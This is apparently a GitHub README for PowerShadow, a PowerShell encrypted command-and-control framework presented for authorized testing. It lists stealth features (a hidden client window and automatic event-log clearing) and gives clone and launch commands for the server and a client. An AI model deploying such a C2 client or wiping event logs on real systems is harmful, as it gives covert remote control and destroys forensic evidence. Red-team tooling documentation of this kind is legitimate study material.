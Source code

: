# PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
  Uses AES‑256 encryption in CBC mode with PKCS7 padding to secure both commands and output.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/sudoplunder/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090
```
- **Client:**
```powershell
.\powershadow.ps1 -Mode Client -ServerIP 192.168.137.134 -Port 9090
```
